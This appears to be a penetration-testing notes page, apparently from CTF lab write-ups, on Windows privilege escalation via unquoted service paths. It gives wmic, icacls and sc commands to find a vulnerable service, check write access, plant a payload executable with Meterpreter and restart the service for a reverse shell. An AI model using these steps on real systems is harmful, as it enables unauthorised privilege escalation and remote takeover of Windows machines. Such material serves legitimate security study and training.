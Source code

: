 ```yaml
---
layout: default
title: Unquoted Path
nav_order: 1
---
```


# Unquoted Path

---

We need to be able to confirm the following:

1. A service has an unquoted service path with a space in the path name
2. Our current user has permissions to write to a directory within the search path of the service
3. Our current user has permissions to start and stop that service

## WMIC

Use _wmic_ to search for all services and paths, specifically searching for unquoted paths

```bash
C:\> wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

We can then use _icacls_ to determine if we have write permissions to a directory

```bash
C:\> cd "C:\program Files\VMware\"
C:\> icacls "VMware Tools"
```

![icacls](../../../../assets/images/ctfs/proving_grounds/privesc/icacls.png)

Stop the service

```bash
C:\> sc stop VGAuthService
```

Then we upload our payload to the target directory.

```bash
# If Meterpreter shell
meterpreter > upload payload64.exe "C:\\program files\\Vmware\\Vmware Tools\\Vmware.exe"
```

Start the service and get the reverse shell

```bash
C:\> sc start VGAuthService
```

## sc (service control)

We can also use the "sc" (Service Control) command with "qc" (Show Config) option to query a specific service and manually check for an unquoted path.

```bash
C:\> sc qc CIJSRegister
```

